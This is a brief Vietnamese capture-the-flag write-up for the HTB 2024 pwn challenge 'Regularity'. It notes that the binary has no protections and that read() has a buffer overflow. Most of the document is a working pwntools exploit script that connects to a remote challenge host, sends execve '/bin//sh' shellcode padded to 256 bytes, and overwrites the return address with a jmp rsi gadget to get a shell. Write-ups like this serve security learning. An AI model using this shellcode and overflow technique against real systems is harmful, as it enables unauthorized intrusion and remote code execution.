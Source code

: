 # REGULARITY

> Cate: Pwn

# Description

Challenge cho chúng ta duy nhất file regularity.

Sử dụng lệnh checksec, ta thấy file không có chế độ bảo vệ gì cả.

![img](/HTB2024/pwn_regularity/Images/checksec.png)

Sử dụng IDA64 dịch ngược file, nhận thấy có một lỗ hổng tràn bộ đệm to đùng ở hàm read().

![img](/HTB2024/pwn_regularity/Images/vuln.png)

# Exploit


```python
from pwn import *

p = remote("94.237.56.137", 30190)

context.arch = 'amd64'

shellcode = asm(
f'''
xor rdi, rdi
push rdi
mov rdi, 0x68732f2f6e69622f
push rdi
mov rdi, rsp
xor rdx, rdx
xor rsi, rsi
xor rax, rax
add al, 0x3b
syscall
''')

jmp_rsi = 0x401041

payload = shellcode + b"a" * (256-len(shellcode)) + p64(0x401041)
p.sendline(payload)

p.interactive()
```
